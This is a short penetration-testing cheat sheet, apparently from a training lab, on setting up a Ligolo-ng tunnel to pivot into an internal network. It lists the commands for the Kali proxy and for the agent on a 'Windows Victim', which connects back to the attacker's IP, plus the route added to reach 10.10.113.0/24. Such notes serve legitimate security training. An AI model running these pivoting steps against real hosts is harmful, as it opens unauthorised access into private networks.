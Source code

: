- Proxy - Server
- Agent -> Client

```
sudo ip tuntap add user root mode tun ligolo
```

```
sudo ip link set ligolo up
```

Kali:
```
./proxy-lin -selfcert
```

Windows Victim:
```
.\ligolo-agent.exe -connect 192.168.45.158:11601 -ignore-cert
```

In Ligolo:
```
session
```
Choose session
Then:
```
ifconfig
```

In Kali Terminal
```
sudo ip route add 10.10.113.0/24 dev ligolo
```

Check it:
```
ip route list
```

Let's go back; execute `session`, choose `session`; Then:
```
start
```
